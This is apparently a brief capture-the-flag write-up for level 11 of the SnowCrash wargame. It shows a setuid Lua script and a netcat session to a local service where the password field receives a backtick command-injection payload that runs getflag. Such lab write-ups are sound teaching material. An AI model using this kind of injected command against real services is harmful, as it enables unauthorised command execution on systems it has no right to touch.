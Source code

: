 # Level 11

## The challenge

The folder contain a lua script named level11.lua owned by flag11. setuid and setgid bits are set.

```sh
level11@SnowCrash:~$ ls -al
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
level11@SnowCrash:~$
```

```sh
$ level11@SnowCrash:~$ netcat 127.0.0.1 5151
Password: `getflag > /tmp/key; echo test`
```
